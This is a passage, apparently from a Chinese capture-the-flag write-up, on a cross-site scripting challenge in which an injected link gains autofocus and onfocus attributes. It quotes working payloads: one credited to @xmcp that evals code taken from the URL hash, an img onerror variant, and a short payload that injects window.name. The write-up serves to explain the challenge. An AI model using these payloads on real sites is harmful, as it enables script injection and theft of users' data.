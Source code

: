 于是会变成：

```html
<a http:="" web="" result?="" href="" autofocus="" onfocus="xxx"></a>
```

`onfocus` 里面就是任意的 JS 了，只有 URI 长度会限制（但是 payload 一般也不会那么长）。作为参考，@xmcp 的 payload 如下：

```html
<script>
location='http://web/result?/href/autofocus/onfocus=eval(decodeURIComponent(location.hash.substring(1)))//#fetch(...)
</script>
```

以上也可以换成 <img onerror=xxx> 之类的。

结合以上所说的 `name`，甚至还有更简单的 payload：

```
"+name+"
```

然后 name 里面放 HTML 即可。
